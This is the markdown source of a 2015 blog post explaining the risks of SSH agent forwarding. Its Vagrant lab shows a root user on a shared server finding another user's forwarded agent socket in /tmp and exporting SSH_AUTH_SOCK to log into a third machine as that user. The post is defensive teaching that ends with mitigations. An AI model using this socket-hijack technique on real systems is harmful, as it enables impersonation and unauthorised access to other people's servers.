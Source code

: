 ```yaml
---
layout: post
title: When is ssh -A insecure?
date: 2015-07-06 15:27:14 -0300
comments: true
author:
  name: Marcelo Dominguez
  email: marcelo@wyeworks.com
  twitter_handle: marpo60
  github_handle: marpo60
  image: /images/team/marcelo-dominguez.jpg
  description: Software engineer - Curious by nature - Sports lover - Tech guy
---
```


## Introduction

### What's the authentication agent forwarding for?

Let's start showing what `man ssh` says about it:

> `-A` Enables forwarding of the authentication agent
> connection. This can also be specified on a per-host basis in a
> configuration file.
Agent forwarding should be enabled with caution.  Users with the
ability to bypass file permissions on the remote host (for the agent's
UNIX-domain socket)
can access the local agent through the forwarded connection.  An
attacker cannot obtain key material from
the agent, however they can perform operations on the keys that
enable them to authenticate using the identities loaded into the
agent.

It tries to solve the following problem:

`Laptop -> Server A -> Server B`

User wants to connect to Server A and from Server A to Server B
forwarding all authentication requests to Laptop.

<!--more-->

### How do we use it?

{% codeblock lang:sh %}
  user@laptop$ ssh -A serverA
  user@serverA$ ssh serverB
  user@serverB$
{% endcodeblock %}

## So, when is ssh -A insecure?

The man page has the following note:

> Agent forwarding should be enabled with caution.

So, we have to be careful with this option, but what are the problems?

With the intention of gaining more insight about the problem. We'll do
an experiment, we'll set up a scenario that is far from ideal but it's
simple enough to reproduce the problem.

## Experiment

To follow this experiment you'll need to have [vagrant](https://www.vagrantup.com/) installed
in your computer. You don't need to have previous knowledge of vagrant
to follow the experiment.
All the config files used in this experiment can be found [here](https://github.com/marpo60/ssh_forward_agent_issue).

Let's start building a topology from scratch.

The topology will include 3 virtual servers and our own machine:

- host
- web (172.17.8.101)
- worker (172.17.8.102)
- secret (172.17.8.110)

Users:

- me
- Alice (Good)
- Eve (Bad)

Facts:

* The host machine is our machine where we will create the network
topology using virtual machines
* The web server is a virtual machine that will emulate a server
accessible from the internet.
* The worker server is a virtual machine that will emulate a
server accessible only from the web server.
* The secret server is a virtual machine that will emulate a
server accessible only by Alice from the internet.

Let's start the servers with `vagrant up`.

`host$ vagrant up` (This can take a while...)

First let's add all the keys to the ssh agent of the host
machine

{% codeblock lang:sh %}
  me@host$ ssh-add alice_id_rsa
  me@host$ ssh-add eve_id_rsa
{% endcodeblock %}

Now we'll open a new terminal and emulate that Alice is working
on the worker server

Note that for this experiment we set up another instance
of the ssh daemon in port 2222
in order to avoid messing with the default ssh server and
Vagrant configurations, please check the config files.

{% codeblock lang:sh %}
  me@host$ ssh -A -i alice_id_rsa -p 2222 alice@172.17.8.101
  alice@web:~$ ssh -p 2222 172.17.8.102
  alice@worker:~$
{% endcodeblock %}

Now on other terminal let's pretend to be Eve

{% codeblock lang:sh %}
  me@host$ ssh -i eve_id_rsa -p 2222 eve@172.17.8.101
{% endcodeblock %}

Eve will not use `-A` options because she doesn't need to use the
worker server

Eve finds out that alice is connected

{% codeblock lang:sh %}
  eve@web:~$ ps -aux | grep sshd | grep alice
  root      2469  0.0  0.8 107696  4252 ?        Ss   21:49   0:00
  sshd: alice [priv]
  alice     2522  0.0  0.3 107696  1952 ?        S    21:49   0:00
  sshd: alice@pts/1
  eve@web:~$
{% endcodeblock %}

And she also finds out that Alice is using `-A` because a socket
file was generated in /tmp/ssh-\*

{% codeblock lang:sh %}
  eve@web:~$ ls -lha /tmp/
  total 24K
  drwxrwxrwt  5 root    root    4.0K Jan 19 21:55 .
  drwxr-xr-x 23 root    root    4.0K Jan 19 21:34 ..
  drwxrwxrwt  2 root    root    4.0K Jan 19 21:34 .ICE-unix
  drwx------  2 alice   alice   4.0K Jan 19 21:49
  ssh-xeIzefGEYs
  -rwx--x--x  1 vagrant vagrant  676 Jan 19 21:34 vagrant-shell
  drwxrwxrwt  2 root    root    4.0K Jan 19 21:34 .X11-unix
  eve@web:~$
{% endcodeblock %}

Eve now becomes root and impersonate into Alice.

{% codeblock lang:sh %}
  eve@web:~$ sudo su #eve123
  root@web:/home/eve# export SSH_AUTH_SOCK=/tmp/ssh-xeIzefGEYs/agent.2522
  root@web:/home/eve# ssh -p 2222 alice@172.17.8.110
  alice@secret:~$
{% endcodeblock %}

So, with this simple stepts now Eve is connected to secret
machine as Alice.

## Conclusions

It's not unusual for users to have sudo permissions on shared
environments so you should avoid using
-A option if you don't trust that system. One
alternative could be to use `ProxyCommand` instead of `-A` like it
mentions [here](http://backreference.org/2010/02/26/jump-in-with-ssh-and-netcat/).

But in case you have to use the `-A` option and you don't trust the
sudoers of the shared system, create
a new pair of private and public keys for those servers,
in this way you'll reduce the risk of
compromising other servers.

Cheers!
